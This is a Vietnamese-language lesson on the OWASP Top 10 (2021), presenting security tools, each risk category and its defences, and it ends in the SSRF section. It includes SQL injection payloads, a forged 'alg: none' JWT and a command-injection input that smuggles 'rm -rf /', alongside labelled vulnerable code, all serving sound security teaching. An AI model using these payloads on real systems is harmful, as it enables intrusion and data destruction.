








# Bài 3: OWASP Top 10

---

## 1. OWASP là gì?

**OWASP** (Open Web Application Security Project) là một tổ chức phi lợi nhuận quốc tế, hoạt động với mục tiêu cải thiện an toàn phần mềm. OWASP cung cấp miễn phí các tài liệu, công cụ, hướng dẫn và tiêu chuẩn để giúp tổ chức, nhà phát triển xây dựng ứng dụng an toàn hơn.

> **Website chính thức:** [https://owasp.org](https://owasp.org)

---

## 2. Các Công Cụ OWASP

### 2.1 OWASP ZAP (Zed Attack Proxy)

ZAP là công cụ kiểm thử bảo mật ứng dụng web mã nguồn mở, được sử dụng rộng rãi bởi cả người mới bắt đầu lẫn chuyên gia bảo mật.

**Tính năng chính:**

- **Active Scan:** Tự động quét và phát hiện các lỗ hổng phổ biến.
- **Passive Scan:** Theo dõi traffic mà không gửi request tấn công.
- **Spider:** Tự động khám phá cấu trúc ứng dụng web.
- **Fuzzer:** Kiểm thử đầu vào với dữ liệu ngẫu nhiên hoặc theo mẫu.
- **Intercepting Proxy:** Chặn, xem và chỉnh sửa request/response.

> 🔗 [https://owasp.org/www-project-zap/](https://owasp.org/www-project-zap/)

---

### 2.2 OWASP Juice Shop

Juice Shop là một ứng dụng web được **cố tình xây dựng không an toàn**, phục vụ mục đích học tập và luyện tập tấn công/phòng thủ.

- Mô phỏng hầu hết các lỗ hổng trong OWASP Top 10.
- Hỗ trợ CTF (Capture The Flag) với bảng điểm tích hợp.
- Có thể chạy local bằng Docker:

```bash
docker pull bkimminich/juice-shop
docker run --rm -p 3000:3000 bkimminich/juice-shop
```

> 🔗 [https://owasp.org/www-project-juice-shop/](https://owasp.org/www-project-juice-shop/)

---

### 2.3 Burp Suite

Burp Suite là bộ công cụ kiểm thử bảo mật chuyên nghiệp của PortSwigger, không chính thức thuộc OWASP nhưng được dùng kết hợp rất phổ biến.

| Module | Chức năng |
|---|---|
| **Proxy** | Chặn và chỉnh sửa HTTP/HTTPS request trước khi gửi |
| **Repeater** | Gửi lại và chỉnh sửa request thủ công nhiều lần |
| **Decoder** | Encode/decode Base64, URL, HTML, Hex... |
| **Comparer** | So sánh hai request/response để phát hiện sự khác biệt |
| **Intruder** | Tự động hóa tấn công (brute force, fuzzing...) |
| **Spider** | Tự động dò quét cấu trúc trang web |
| **Scanner** | Tự động phát hiện lỗ hổng (bản Pro) |

---

### 2.4 OWASP Cheat Sheets

Cheat Sheets là tập hợp các hướng dẫn ngắn gọn, súc tích do chuyên gia viết, cung cấp best practice cho từng chủ đề bảo mật cụ thể.

**Một số Cheat Sheet quan trọng:**

- SQL Injection Prevention
- XSS (Cross-Site Scripting) Prevention
- Authentication
- Session Management
- Input Validation
- Cryptographic Storage

> 🔗 [https://cheatsheetseries.owasp.org/](https://cheatsheetseries.owasp.org/)

---

## 3. OWASP Top 10 (2021)

OWASP Top 10 là danh sách **10 rủi ro bảo mật nghiêm trọng nhất** cho ứng dụng web, được cập nhật định kỳ dựa trên dữ liệu thực tế và ý kiến cộng đồng.



### So sánh Top 10: 2017 vs 2021

| 2017 | 2021 |
|---|---|
| A01 - Injection | **A01 - Broken Access Control** ⬆️ |
| A02 - Broken Authentication | **A02 - Cryptographic Failures** ⬆️ |
| A03 - Sensitive Data Exposure | **A03 - Injection** ⬇️ |
| A04 - XML External Entities (XXE) | **A04 - Insecure Design** 🆕 |
| A05 - Broken Access Control | **A05 - Security Misconfiguration** |
| A06 - Security Misconfiguration | **A06 - Vulnerable & Outdated Components** |
| A07 - Cross-Site Scripting (XSS) | **A07 - Identification & Authentication Failures** |
| A08 - Insecure Deserialization | **A08 - Software & Data Integrity Failures** |
| A09 - Using Components with Known Vulnerabilities | **A09 - Security Logging & Monitoring Failures** |
| A10 - Insufficient Logging & Monitoring | **A10 - Server-Side Request Forgery (SSRF)** 🆕 |

!!! note "Nhận xét"
    - Broken Access Control leo từ #5 lên **#1** cho thấy mức độ phổ biến ngày càng tăng.
    - Insecure Design và SSRF là **hai mục hoàn toàn mới** trong phiên bản 2021.
    - XSS được gộp vào mục Injection thay vì là mục riêng như 2017.

---

## A01 — Broken Access Control

### Khái niệm

Broken Access Control xảy ra khi ứng dụng không kiểm soát đúng đắn **ai được phép truy cập tài nguyên nào**. Kẻ tấn công có thể leo thang đặc quyền (privilege escalation), xem hoặc chỉnh sửa dữ liệu của người khác.

### Các biểu hiện phổ biến

- Bypass kiểm tra truy cập bằng cách thay đổi URL, tham số query string.
- Truy cập tài khoản người dùng khác qua ID có thể đoán được (IDOR - Insecure Direct Object Reference).
- Gọi API với các HTTP method không được kiểm soát (POST, PUT, DELETE).
- Giả mạo JWT, cookie hoặc replay token để leo thang quyền.
- Cấu hình sai CORS (Cross-Origin Resource Sharing), cho phép origin không được tin cậy gọi API.
- Truy cập với quyền admin khi chỉ đăng nhập tài khoản thường.

### Ví dụ tấn công IDOR

```http
# Người dùng A truy cập tài khoản của họ
GET /api/users/1001/profile

# Thay đổi ID để truy cập tài khoản người dùng B
GET /api/users/1002/profile  ← Không được phép!
```

Nếu server không kiểm tra xem `user_id` trong token có khớp với `1002` không, đây là lỗ hổng IDOR.

### Ví dụ tấn công JWT giả mạo

```json
// Header JWT bị chỉnh sửa để dùng "alg": "none"
{
  "alg": "none",
  "typ": "JWT"
}
// Payload nâng quyền
{
  "user": "attacker",
  "role": "admin"
}
```

!!! danger "Nguy hiểm"
    Một số thư viện JWT cũ chấp nhận `"alg": "none"`, bỏ qua việc xác thực chữ ký.

### Biện pháp phòng chống

- **Deny by default:** Mặc định từ chối tất cả, chỉ cấp quyền khi có nhu cầu rõ ràng.
- Triển khai **RBAC (Role-Based Access Control)** hoặc **ABAC (Attribute-Based Access Control)**.
- Kiểm soát truy cập dựa trên **quyền sở hữu bản ghi** (record ownership), không chỉ dựa vào role.
- Tắt **directory listing** trên web server.
- Vô hiệu hóa session ID khi đăng xuất; JWT nên có thời gian hết hạn ngắn.
- Ghi log tất cả lỗi truy cập và cảnh báo người quản trị.
- Giới hạn rate cho API để giảm thiểu tấn công tự động.



---

## A02 — Cryptographic Failures

### Khái niệm

Trước đây gọi là *Sensitive Data Exposure*, tên mới **Cryptographic Failures** phản ánh đúng hơn nguyên nhân gốc rễ: lỗi trong việc áp dụng hoặc không áp dụng mã hóa để bảo vệ dữ liệu nhạy cảm.

### Các biểu hiện phổ biến

- Truyền dữ liệu qua HTTP thay vì HTTPS (cleartext transmission).
- Lưu trữ mật khẩu dạng plaintext hoặc dùng MD5/SHA-1 không có salt.
- Sử dụng thuật toán mã hóa yếu hoặc lỗi thời: DES, RC4, MD5, SHA-1.
- Dùng khóa mặc định, khóa ngắn, hoặc tái sử dụng khóa.
- Tồn tại các trang HTTP trong khi ứng dụng chủ yếu dùng HTTPS.
- Không tắt cache cho response chứa dữ liệu nhạy cảm.

### So sánh thuật toán Hash

| Thuật toán | Trạng thái | Lý do |
|---|---|---|
| MD5 | ❌ Không dùng | Dễ bị collision attack, brute force nhanh |
| SHA-1 | ❌ Không dùng | Đã bị phá vỡ (SHAttered attack 2017) |
| SHA-256 | ✅ Dùng được | Vẫn an toàn cho hashing thông thường |
| SHA-3 | ✅ Tốt | Thiết kế hoàn toàn khác SHA-2 |
| bcrypt | ✅ Tốt cho password | Có work factor, chậm cố ý |
| Argon2 | ✅ Tốt nhất cho password | Winner PHC 2015, memory-hard |

### Ví dụ: Lưu mật khẩu đúng cách

=== "Python (bcrypt)"

    ```python
    import bcrypt

    # Hash password khi đăng ký
    password = b"my_secure_password"
    salt = bcrypt.gensalt(rounds=12)  # work factor = 12
    hashed = bcrypt.hashpw(password, salt)

    # Kiểm tra khi đăng nhập
    if bcrypt.checkpw(password, hashed):
        print("Mật khẩu đúng")
    ```

=== "Python (Argon2)"

    ```python
    from argon2 import PasswordHasher

    ph = PasswordHasher(time_cost=2, memory_cost=65536, parallelism=2)
    hash = ph.hash("my_secure_password")

    # Verify
    ph.verify(hash, "my_secure_password")
    ```

=== "Java (bcrypt)"

    ```java
    import org.springframework.security.crypto.bcrypt.BCryptPasswordEncoder;

    BCryptPasswordEncoder encoder = new BCryptPasswordEncoder(12);
    String hashed = encoder.encode("my_secure_password");

    boolean matches = encoder.matches("my_secure_password", hashed);
    ```

### Bật HTTPS và HSTS

```nginx
# Nginx config — bắt buộc HTTPS
server {
    listen 80;
    return 301 https://$host$request_uri;
}

server {
    listen 443 ssl;
    # Strict Transport Security: buộc browser dùng HTTPS trong 1 năm
    add_header Strict-Transport-Security "max-age=31536000; includeSubDomains" always;
    # Không cache response nhạy cảm
    add_header Cache-Control "no-store, no-cache, must-revalidate";
}
```

### Biện pháp phòng chống

- Phân loại dữ liệu: xác định dữ liệu nào là nhạy cảm (PII, thẻ tín dụng, mật khẩu...).
- Không lưu trữ dữ liệu nhạy cảm khi không cần thiết.
- Dùng TLS 1.2+ cho mọi kết nối; bật HSTS.
- Dùng Argon2, bcrypt, scrypt cho lưu trữ mật khẩu (không bao giờ dùng MD5/SHA-1).
- Sinh khóa ngẫu nhiên, đủ độ dài, lưu trong secure storage (HSM, Vault...).
- Tắt cache cho các response nhạy cảm.

---

## A03 — Injection

### Khái niệm

Injection xảy ra khi **dữ liệu không tin cậy được gửi đến một interpreter** (SQL, OS shell, LDAP...) như một phần của câu lệnh hoặc truy vấn. Kẻ tấn công có thể đánh lừa interpreter thực thi các lệnh ngoài ý muốn.

### Các loại Injection



### SQL Injection — Chi tiết

#### Ví dụ lỗ hổng

```python
# CODE CÓ LỖ HỔNG — KHÔNG BAO GIỜ LÀM VẬY
user_id = request.GET['userId']
query = f"SELECT * FROM Users WHERE UserId = {user_id}"
cursor.execute(query)
```

**Kẻ tấn công nhập:**
```
105 OR 1=1
```

**Câu lệnh SQL thực thi:**
```sql
SELECT * FROM Users WHERE UserId = 105 OR 1=1;
-- Kết quả: trả về TOÀN BỘ bảng Users!
```

#### Các loại SQL Injection

=== "Classic SQLi"

    ```sql
    -- Dump toàn bộ dữ liệu
    ' OR '1'='1
    -- Comment out phần còn lại
    admin'--
    -- Union-based: lấy dữ liệu từ bảng khác
    ' UNION SELECT username, password FROM admin--
    ```

=== "Blind SQLi"

    ```sql
    -- Boolean-based: suy diễn từ true/false
    ' AND 1=1--   (trang hiển thị bình thường → true)
    ' AND 1=2--   (trang lỗi hoặc khác → false)

    -- Time-based: dùng delay để suy diễn
    '; IF (1=1) WAITFOR DELAY '0:0:5'--
    ```

=== "Error-based SQLi"

    ```sql
    -- Khai thác thông báo lỗi để lấy thông tin
    ' AND EXTRACTVALUE(1, CONCAT(0x7e, (SELECT version())))--
    ```

#### Phòng chống SQL Injection

=== "Prepared Statements (Tốt nhất)"

    ```python
    # Python - Parameterized Query
    cursor.execute(
        "SELECT * FROM Users WHERE UserId = %s",
        (user_id,)   # Tham số được escape tự động
    )
    ```

    ```java
    // Java - PreparedStatement
    PreparedStatement stmt = conn.prepareStatement(
        "SELECT * FROM Users WHERE UserId = ?"
    );
    stmt.setInt(1, userId);
    ResultSet rs = stmt.executeQuery();
    ```

=== "Stored Procedures"

    ```sql
    -- Tạo stored procedure
    CREATE PROCEDURE GetUser @UserId INT
    AS
        SELECT * FROM Users WHERE UserId = @UserId
    GO

    -- Gọi từ code
    EXEC GetUser @UserId = 105
    ```

=== "ORM (Object-Relational Mapping)"

    ```python
    # SQLAlchemy ORM — tự động parameterize
    user = session.query(User).filter(User.id == user_id).first()
    ```

### OS Command Injection

```python
# CODE CÓ LỖ HỔNG
import os
filename = request.GET['file']
os.system(f"cat /var/log/{filename}")

# Attacker nhập: access.log; rm -rf /
# → Thực thi: cat /var/log/access.log; rm -rf /
```

**Phòng chống:**

```python
import subprocess, shlex

# Dùng danh sách tham số thay vì chuỗi
filename = request.GET['file']
# Whitelist validation
if not re.match(r'^[a-zA-Z0-9_\-\.]+\.log$', filename):
    raise ValueError("Invalid filename")

result = subprocess.run(
    ['cat', f'/var/log/{filename}'],
    capture_output=True, text=True
)
```

!!! tip "Blacklist vs Whitelist"
    - **Blacklist:** Chặn các ký tự nguy hiểm đã biết (`'`, `"`, `;`, `--`...). Dễ bị bypass vì không thể liệt kê hết.
    - **Whitelist:** Chỉ cho phép các ký tự/giá trị hợp lệ. **Luôn ưu tiên whitelist.**

---

## A04 — Insecure Design

### Khái niệm

Đây là mục **mới trong Top 10 2021**, phản ánh sự thiếu hụt bảo mật ngay từ giai đoạn **thiết kế và kiến trúc**, không phải lỗi trong implementation. Insecure Design không thể khắc phục chỉ bằng cách vá lỗi code.

### Phân biệt Insecure Design vs Security Implementation Flaw

| | Insecure Design | Implementation Flaw |
|---|---|---|
| **Vấn đề** | Thiếu threat model, logic sai | Bug trong code cụ thể |
| **Ví dụ** | Không yêu cầu xác thực email | SQL Injection do thiếu parameterize |
| **Khắc phục** | Thiết kế lại | Vá code |

### Ví dụ thực tế

- Ứng dụng thương mại điện tử không có cơ chế giới hạn số lượng đặt hàng → bị lạm dụng để mua với giá âm.
- Hệ thống reset mật khẩu chỉ dựa vào câu hỏi bí mật → dễ đoán.
- Thiếu phân tích luồng nghiệp vụ → kẻ tấn công bỏ qua bước thanh toán trong checkout flow.

### Biện pháp phòng chống

- Áp dụng **Secure Development Lifecycle (SDL)** từ đầu.
- Thực hiện **Threat Modeling** (ví dụ: STRIDE) trong giai đoạn thiết kế.



- Tách biệt các layer (presentation, business logic, data).
- Xây dựng thư viện component an toàn có thể tái sử dụng.
- Viết user story bảo mật: *"Là kẻ tấn công, tôi muốn..."*.

---

## A05 — Security Misconfiguration

### Khái niệm

Lỗi cấu hình bảo mật là một trong những vấn đề **phổ biến nhất** và dễ khai thác nhất. Nó xảy ra ở mọi lớp: network, platform, web server, application server, database, framework, custom code.

### Các biểu hiện phổ biến

- Directory listing bật → kẻ tấn công duyệt file server.
- Error message chi tiết hiển thị stack trace, phiên bản thư viện.
- Tài khoản và mật khẩu mặc định không đổi (admin/admin, root/root).
- Tính năng không cần thiết vẫn được bật (XML external entities, verbose logging...).
- CORS cấu hình sai: `Access-Control-Allow-Origin: *`.
- Thiếu security headers.

### Ví dụ: Directory Listing

```
# Nếu truy cập được URL này
https://example.com/wp-includes/

# Sẽ thấy danh sách file:
Index of /wp-includes
├── admin-bar.php
├── atomlib.php
├── author-template.php
└── ...
```

Thông tin này giúp kẻ tấn công biết framework, phiên bản và tìm lỗ hổng tương ứng.

### Security Headers quan trọng

```http
# Content Security Policy - chống XSS
Content-Security-Policy: default-src 'self'; script-src 'self'

# Chống clickjacking
X-Frame-Options: DENY

# Chống MIME sniffing
X-Content-Type-Options: nosniff

# HTTPS bắt buộc
Strict-Transport-Security: max-age=31536000; includeSubDomains

# Kiểm soát thông tin Referrer
Referrer-Policy: strict-origin-when-cross-origin

# Permissions Policy
Permissions-Policy: geolocation=(), camera=()
```

### Biện pháp phòng chống

- Thiết lập quy trình **hardening** chuẩn hóa cho mọi môi trường.
- Tắt directory listing, debug mode, verbose errors trên production.
- Thay đổi tất cả mật khẩu mặc định ngay sau cài đặt.
- Thiết lập security headers đầy đủ.
- Dùng công cụ tự động kiểm tra cấu hình: [Mozilla Observatory](https://observatory.mozilla.org/), [SecurityHeaders.com](https://securityheaders.com/).

---

## A06 — Vulnerable and Outdated Components

### Khái niệm

Ứng dụng hiện đại phụ thuộc vào rất nhiều thư viện, framework, module bên thứ ba. Nếu các thành phần này có lỗ hổng chưa vá, toàn bộ ứng dụng đều có thể bị tấn công.

### Ví dụ nổi tiếng

| Lỗ hổng | Thành phần | Hậu quả |
|---|---|---|
| **Log4Shell (CVE-2021-44228)** | Apache Log4j 2.x | RCE trên hàng triệu server |
| **EternalBlue** | Windows SMB | WannaCry ransomware 2017 |
| **Heartbleed** | OpenSSL | Lộ private key, session token |
| **Struts2 (CVE-2017-5638)** | Apache Struts | Tấn công Equifax, 147M hồ sơ |

### Biện pháp phòng chống

=== "Quản lý dependency"

    ```bash
    # Node.js — kiểm tra lỗ hổng
    npm audit
    npm audit fix

    # Python
    pip install safety
    safety check

    # Java (OWASP Dependency Check)
    mvn org.owasp:dependency-check-maven:check
    ```

=== "Software Composition Analysis (SCA)"

    Tích hợp vào CI/CD pipeline:

    ```yaml
    # GitHub Actions example
    - name: Run Snyk to check for vulnerabilities
      uses: snyk/actions/node@master
      env:
        SNYK_TOKEN: ${{ secrets.SNYK_TOKEN }}
    ```

- Duy trì **inventory** (Software Bill of Materials - SBOM) cho tất cả thành phần.
- Theo dõi [NVD (National Vulnerability Database)](https://nvd.nist.gov/) và CVE.
- Chỉ tải từ nguồn chính thức, xác minh checksum/chữ ký số.
- Loại bỏ các dependency không dùng nữa.

---

## A07 — Identification and Authentication Failures

### Khái niệm

Xác thực và quản lý session không đúng cách cho phép kẻ tấn công giả mạo người dùng hợp lệ. Đây là nhóm lỗ hổng liên quan đến **xác minh danh tính** và **quản lý phiên làm việc**.

### Các biểu hiện phổ biến

- Cho phép mật khẩu yếu (123456, password...).
- Không có cơ chế chống brute force.
- Mật khẩu lưu dạng plaintext hoặc hash yếu không có salt.
- Session ID lộ trên URL.
- Không invalidate session sau khi đăng xuất.
- Thiếu MFA cho tài khoản quan trọng.

### Top 10 mật khẩu phổ biến nhất (2021)

```
1. 123456
2. 123456789
3. qwerty
4. password
5. 1234567
6. 12345678
7. 12345
8. iloveyou
9. 111111
10. 123123
```

!!! warning "Nguy hiểm"
    Đây là những mật khẩu đầu tiên bị thử trong bất kỳ cuộc tấn công brute force nào.

### Biện pháp phòng chống

#### Multi-Factor Authentication (MFA)



#### Chính sách mật khẩu

```python
import re

def validate_password(password: str) -> bool:
    """
    Yêu cầu: ít nhất 12 ký tự, có chữ hoa, chữ thường,
    số và ký tự đặc biệt
    """
    if len(password) < 12:
        return False
    if not re.search(r'[A-Z]', password):
        return False
    if not re.search(r'[a-z]', password):
        return False
    if not re.search(r'\d', password):
        return False
    if not re.search(r'[!@#$%^&*(),.?":{}|<>]', password):
        return False
    return True
```

#### Giới hạn đăng nhập sai

```python
from datetime import datetime, timedelta
from collections import defaultdict

login_attempts = defaultdict(list)
MAX_ATTEMPTS = 5
LOCKOUT_MINUTES = 15

def check_rate_limit(ip_address: str) -> bool:
    now = datetime.now()
    cutoff = now - timedelta(minutes=LOCKOUT_MINUTES)
    # Lọc các attempt trong cửa sổ thời gian
    login_attempts[ip_address] = [
        t for t in login_attempts[ip_address] if t > cutoff
    ]
    if len(login_attempts[ip_address]) >= MAX_ATTEMPTS:
        return False  # Bị khóa
    login_attempts[ip_address].append(now)
    return True
```

---

## A08 — Software and Data Integrity Failures

### Khái niệm

Mục này đề cập đến các lỗ hổng liên quan đến việc **không xác minh tính toàn vẹn** của code, cập nhật phần mềm, và dữ liệu nhạy cảm trước khi tin tưởng chúng.

### Các biểu hiện phổ biến

- Sử dụng plugin/thư viện từ CDN không đáng tin cậy, không có Subresource Integrity (SRI).
- Cơ chế tự động cập nhật không kiểm tra chữ ký số.
- Deserialization không an toàn — dữ liệu serialize được deserialize mà không validate.
- CI/CD pipeline bị xâm phạm → đưa code độc hại vào production.

### Insecure Deserialization

```java
// CODE CÓ LỖ HỔNG — Java deserialization
ObjectInputStream ois = new ObjectInputStream(
    new ByteArrayInputStream(userProvidedData)
);
Object obj = ois.readObject(); // Nguy hiểm! Có thể RCE
```

**Kẻ tấn công có thể craft serialized object để thực thi code tùy ý** (còn gọi là "gadget chain").

### Subresource Integrity (SRI)

```html
<!-- KHÔNG AN TOÀN — không có SRI -->
<script src="https://cdn.example.com/jquery.min.js"></script>

<!-- AN TOÀN — có SRI hash -->
<script
  src="https://cdn.example.com/jquery.min.js"
  integrity="sha384-oqVuAfXRKap7fdgcCY5uykM6+R9GqQ8K/uxy9rx7HNQlGYl1kPzQho1wx4JwY8wC"
  crossorigin="anonymous">
</script>
```

### Supply Chain Attack

Ví dụ điển hình: **SolarWinds 2020** — Kẻ tấn công xâm nhập pipeline CI/CD và chèn backdoor vào phần mềm chính thức, phát tán cho 18,000+ khách hàng.

### Biện pháp phòng chống

- Dùng digital signature để xác thực package và artifact.
- Bật SRI cho tất cả script từ CDN bên ngoài.
- Review code và kiểm soát chặt CI/CD pipeline.
- Không deserialize dữ liệu từ nguồn không tin cậy; dùng JSON thay vì Java serialization khi có thể.

---

## A09 — Security Logging and Monitoring Failures

### Khái niệm

Không có logging và monitoring đầy đủ, kẻ tấn công có thể hoạt động trong hệ thống **hàng tuần, hàng tháng** mà không bị phát hiện. Trung bình thời gian phát hiện breach là **207 ngày** (IBM Cost of a Data Breach 2023).

### Những gì cần ghi log

```python
import logging
import json
from datetime import datetime

# Cấu trúc log có chuẩn (structured logging)
def log_security_event(event_type: str, user_id: str,
                        ip: str, success: bool, detail: str = ""):
    event = {
        "timestamp": datetime.utcnow().isoformat(),
        "event_type": event_type,   # LOGIN, LOGOUT, ACCESS_DENIED...
        "user_id": user_id,
        "ip_address": ip,
        "success": success,
        "detail": detail
    }
    logging.info(json.dumps(event))

# Ghi log đăng nhập
log_security_event("LOGIN", "user123", "192.168.1.1", True)
log_security_event("LOGIN", "user456", "10.0.0.1", False, "Wrong password")
log_security_event("ACCESS_DENIED", "user789", "10.0.0.2", False, "Insufficient privilege")
```

### Danh sách sự kiện cần log

| Loại sự kiện | Quan trọng |
|---|---|
| Đăng nhập thành công/thất bại | ✅ Bắt buộc |
| Đăng xuất | ✅ Bắt buộc |
| Thay đổi mật khẩu | ✅ Bắt buộc |
| Truy cập bị từ chối | ✅ Bắt buộc |
| Giao dịch tài chính | ✅ Bắt buộc |
| Thay đổi quyền user | ✅ Bắt buộc |
| Lỗi validation input | ⚠️ Khuyến nghị |
| Admin action | ✅ Bắt buộc |

### Biện pháp phòng chống

- Lưu log ở vị trí **ngoài web server** (centralized logging: ELK Stack, Splunk, Graylog).
- Mã hóa log và bảo vệ khỏi bị chỉnh sửa (append-only log, WORM storage).
- Thiết lập alert tự động khi phát hiện hành vi bất thường.
- Định kỳ review log và thực hành **incident response**.



---

## A10 — Server-Side Request Forgery (SSRF)

### Khái niệm

SSRF xảy ra khi ứng dụng web **tạo HTTP request đến URL do người dùng cung cấp** mà không xác thực đúng cách. Kẻ tấn công có thể dùng server làm "proxy" để truy cập các tài nguyên nội bộ không được phép tiếp cận từ ngoài.

